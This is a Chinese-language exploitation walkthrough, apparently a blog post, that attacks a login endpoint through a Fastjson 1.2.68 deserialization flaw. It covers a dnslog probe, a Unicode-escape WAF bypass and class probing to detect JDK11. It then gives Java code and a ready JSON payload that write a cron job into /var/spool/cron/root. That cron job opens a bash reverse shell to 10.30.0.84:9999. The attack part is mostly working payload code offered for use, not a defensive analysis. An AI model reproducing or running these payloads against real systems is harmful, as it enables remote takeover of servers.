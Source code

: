 在登录处抓包，发现为json格式传入参数：
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693192153552-521f193f-9d9a-4db4-ba41-660711b12100.png#averageHue=%23fbfbfb&clientId=u86b445f7-787a-4&from=paste&height=124&id=u83cd0353&originHeight=155&originWidth=572&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=10325&status=done&style=none&taskId=u4204412d-4bff-4584-95b9-cbfee3948d4&title=&width=457.6)
删个末尾的}(也可以加个"),看报错，很标准的fastjson错误提示，确定后端使用的fastjson
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693193197646-62ce7b5b-6bd1-4a24-945f-29c92db88de9.png#averageHue=%23fbfbfb&clientId=u86b445f7-787a-4&from=paste&height=199&id=ucbb98b32&originHeight=249&originWidth=1208&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=41602&status=done&style=none&taskId=ud6dd13f4-31a4-40c8-90d4-bf6eeaa2d07&title=&width=966.4)
dnslog测试是否存在漏洞：
```json
{
  "@type":"java.net.Inet4Address",
  "val":"zqs9do.dnslog.cn"
}
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693202239832-b2ab63d5-53b6-4c65-80a7-2f2ca0a24c94.png#averageHue=%23fcfbfb&clientId=uc6d7ad91-e62c-4&from=paste&height=149&id=u6413586c&originHeight=186&originWidth=1082&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=29277&status=done&style=none&taskId=u6752c7a0-3e14-4fba-a22e-1ae9af02020&title=&width=865.6)
有waf,依然使用unicode编码绕过
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693202702343-27f86e61-6961-4751-a484-16f60521e166.png#averageHue=%23f9f8f8&clientId=uc6d7ad91-e62c-4&from=paste&height=268&id=u38bd37b4&originHeight=335&originWidth=1102&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=69379&status=done&style=none&taskId=u143fecbd-ed44-4306-9318-ddec51ac432&title=&width=881.6)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1696399593289-13b421da-5502-482f-b20c-17b1fe3e7714.png#averageHue=%23a09379&clientId=u4d4c1774-f025-4&from=paste&height=215&id=u98f9c855&originHeight=269&originWidth=1195&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=57987&status=done&style=none&taskId=u95161c4f-748f-41eb-bb45-316de5cabc1&title=&width=956)
探测fastjson精确版本：
```json
{
  "\u0040\u0074\u0079\u0070\u0065": "java.lang.AutoCloseable"
```
通过报错，发现版本为1.2.68，在这个大版本下极大的限制 了jndi的利用，因此比较常见的利用方式为文件读写。文件写操作能够造成的危害同样很大，比如写入计划任务、写入ssh密钥、class文件类加载或jar包等。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693205802217-aa62bbca-ba3c-4b88-a439-8f1688cf45e1.png#averageHue=%23fdfdfd&clientId=u6ef5e71e-f1f2-4&from=paste&height=198&id=u52b5559a&originHeight=247&originWidth=1249&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=35374&status=done&style=none&taskId=uf8e77f86-fdfd-4b58-a9b1-b55fabbd897&title=&width=999.2)
环境依赖探测：
在1.2.68中文件写操作不只是单纯依靠fastjson，还需利用其他依赖，比较常见的是commons-io等。但是还有一种情况是在JDK11下，是不需要引入其他依赖即可造成文件写入。所以可优先探测该机器所使用的Java版本是否为JDK11。(依赖类探测主要为了解决Fastjson高版本下需依赖其他环境组合攻击，可结合我们已知Poc针对性的探测！)
利用charactor类型转换报错，当存在指定的类时会报转换错误，不存在则无显示，具体参考首页FastJson全版本利用Poc那篇文章。
`java.net.http.HttpClient`本身是JDK11下才特有的类，用于探测环境是否为JDK11
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693207937357-27f5f756-eb23-40f7-9098-c972b0016824.png#averageHue=%23fefefe&clientId=u6ef5e71e-f1f2-4&from=paste&height=176&id=u72739f57&originHeight=220&originWidth=1236&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=36417&status=done&style=none&taskId=ue2d68d6c-82ca-4c89-be87-b08962da9c6&title=&width=988.8)
`can not cast to char`代表存在该类，即环境为JDK11，比如这样
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1696400166956-b3a7ed0b-c203-44ba-b378-8458592425d1.png#averageHue=%23fefefd&clientId=u4d4c1774-f025-4&from=paste&height=213&id=u5377bf72&originHeight=266&originWidth=1416&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=40418&status=done&style=none&taskId=ub457f7f9-8eb7-46d6-933b-b3e99c2769f&title=&width=1132.8)
`org.springframework.web.bind.annotation.RequestMapping`是SpringBoot特有的类，所以该环境为SpringBoot。
如果类不存在则无回显：
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693208011055-a900abde-82fe-4c3c-b454-86679d3f7e4c.png#averageHue=%23fdfdfd&clientId=u6ef5e71e-f1f2-4&from=paste&height=171&id=u2e004965&originHeight=214&originWidth=1133&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=34305&status=done&style=none&taskId=u5b19627c-faea-4b9e-82d5-0cb692d9f73&title=&width=906.4)
确定了使用的JDK11，便可无限制写入文件。这里采用写入计划任务反弹shell。
JDK11-Writefile.java:
```java
public static void main(String[] args) throws Exception {
    	String code = gzcompress("* * * * *  bash -i >& /dev/tcp/10.30.0.84/9999 0>&1 \n");
    	//<=1.2.68 and JDK11
        String payload = "{\r\n"
        		+ "    \"@type\":\"java.lang.AutoCloseable\",\r\n"
        		+ "    \"@type\":\"sun.rmi.server.MarshalOutputStream\",\r\n"
        		+ "    \"out\":\r\n"
        		+ "    {\r\n"
        		+ "        \"@type\":\"java.util.zip.InflaterOutputStream\",\r\n"
        		+ "        \"out\":\r\n"
        		+ "        {\r\n"
        		+ "           \"@type\":\"java.io.FileOutputStream\",\r\n"
        		+ "           \"file\":\"/var/spool/cron/root\",\r\n"
        		+ "           \"append\":false\r\n"
        		+ "        },\r\n"
        		+ "        \"infl\":\r\n"
        		+ "        {\r\n"
        		+ "            \"input\":\r\n"
        		+ "            {\r\n"
        		+ "                \"array\":\""+code+"\",\r\n"
        		+ "                \"limit\":1999\r\n"
        		+ "            }\r\n"
        		+ "        },\r\n"
        		+ "        \"bufLen\":1048576\r\n"
        		+ "    },\r\n"
        		+ "    \"protocolVersion\":1\r\n"
        		+ "}\r\n"
        		+ "";
        
        System.out.println(payload);
        JSON.parseObject(payload);
    }
    public static String gzcompress(String code) {
    	byte[] data = code.getBytes();
        byte[] output = new byte[0];
        Deflater compresser = new Deflater();
        compresser.reset();
        compresser.setInput(data);
        compresser.finish();
        ByteArrayOutputStream bos = new ByteArrayOutputStream(data.length);
        try {
            byte[] buf = new byte[1024];
            while (!compresser.finished()) {
                int i = compresser.deflate(buf);
                bos.write(buf, 0, i);
            }
            output = bos.toByteArray();
        } catch (Exception e) {
            output = data;
            e.printStackTrace();
        } finally {
            try {
                bos.close();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
        compresser.end();
        System.out.println(Arrays.toString(output));
        return Base64.getEncoder().encodeToString(output);
    }
```
运行即可生成exp
在写入计划任务时，有几个需要注意的点：

- linux本身系统限制，首先centos和ubuntu系列是不同的，写入文件位置、命令方式均有区别，这里因为是centos系统，所以写入到`/var/spool/cron/root`文件下，而ubuntu系统则应该写入到`/etc/crontab`系统级计划任务下，而不是`/var/spool/cron/crontabs/root`文件下，因为该方式将会涉及到改权限、计划任务服务重启的操作。
- 通过这种文件写入漏洞写入计划任务时，需要在命令的后面加上换行操作，保证该命令为完整的一行，否则不会反弹成功。

写入反弹shell计划任务到`/var/spool/cron/root`中，将会生成Json格式的payload
```json

{
    "\u0040\u0074\u0079\u0070\u0065":"java.lang.AutoCloseable",
    "\u0040\u0074\u0079\u0070\u0065":"sun.rmi.server.MarshalOutputStream",
    "out":
    {
        "\u0040\u0074\u0079\u0070\u0065":"java.util.zip.InflaterOutputStream",
        "out":
        {
           "\u0040\u0074\u0079\u0070\u0065":"java.io.FileOutputStream",
           "file":"/var/spool/cron/root",
           "append":false
        },
        "infl":
        {
            "input":
            {
                "array":"eJzTUtCCQoWkxOIMBd1MBTs1Bf2U1DL9kuQCfUMDPWMDPQM9CxN9SyBQMLBTM1TgAgBAXQuq",
                "limit":1999
            }
        },
        "bufLen":1048576
    },
    "protocolVersion":1
}
```
光这样还不行，因为后面一步需要在limit处写入文件内真实数据的长度，而这个长度会因为一些处理导致并不是我们写入计划任务命令的长度，这里方法同样是利用到报错，先将limit值尽量设置较大，fastjson会因为偏移位置不对爆出正确的数据偏移，即这里的54，所以54才是真实的数据长度。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693210817825-e638cb42-0d1f-4f6f-9346-85bdd7cfd1b2.png#averageHue=%23fdfcfc&clientId=u6ef5e71e-f1f2-4&from=paste&height=171&id=u97e0a20c&originHeight=214&originWidth=1124&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=33085&status=done&style=none&taskId=ude4e6c63-fb19-4057-8ceb-311d61d463e&title=&width=899.2)
这便是写入成功了。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693211158791-fcde713b-7371-417c-b917-733febbba852.png#averageHue=%23fefefe&clientId=u6ef5e71e-f1f2-4&from=paste&height=171&id=u99d95ddc&originHeight=214&originWidth=1121&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=31210&status=done&style=none&taskId=ucde5e06d-402e-4ee5-8ddb-94e20fd17c6&title=&width=896.8)
大概等待一分钟即可反弹shell：
![image.png](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693211211936-14728b5c-971b-4bae-881a-8dd0464a79f4.png#averageHue=%23423c47&clientId=u6ef5e71e-f1f2-4&from=paste&height=202&id=ud8e754d2&originHeight=252&originWidth=929&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=563328&status=done&style=none&taskId=u5e59b430-8cad-4735-a5b2-4980bc2455c&title=&width=743.2)


